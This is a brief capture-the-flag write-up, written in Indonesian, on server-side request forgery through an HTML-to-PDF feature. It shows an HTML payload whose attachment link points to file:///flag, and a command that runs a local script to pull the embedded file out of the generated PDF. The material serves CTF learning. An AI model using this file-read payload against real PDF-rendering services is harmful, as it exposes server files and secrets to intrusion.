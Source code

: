 ** Ref: https://nahamsec.com/posts/my-expense-report-resulted-in-a-server-side-request-forgery-ssrf-on-lyft
- Membuat HTML embed tag untuk read file. Dan expose ke publik.
  ```
  <!DOCTYPE html>
  <html>
  <head>
  <title></title>
  </head>
  <body>
  <a rel='attachment' href='file:///flag'>
  </body>
  ```

- Masukin URL ke web dan download pdf, pake script yg di direktori ini buat extract hasil.
  ```
  python ape.py ed7dccacd87e99f11dcc2dafaa170f69.pdf
  ```
